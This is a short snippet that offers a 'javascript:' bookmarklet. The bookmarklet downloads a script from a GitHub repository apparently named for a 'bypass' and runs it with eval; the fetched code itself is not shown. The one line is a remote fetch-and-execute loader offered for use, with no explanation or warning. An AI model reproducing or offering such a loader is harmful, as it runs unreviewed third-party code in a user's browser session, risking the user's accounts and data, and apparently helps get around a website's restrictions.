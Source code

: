 javascript:fetch("https://raw.githubusercontent.com/xiiiter/reda-o-bypass/refs/heads/main/script.js").then(t=>t.text()).then(eval);
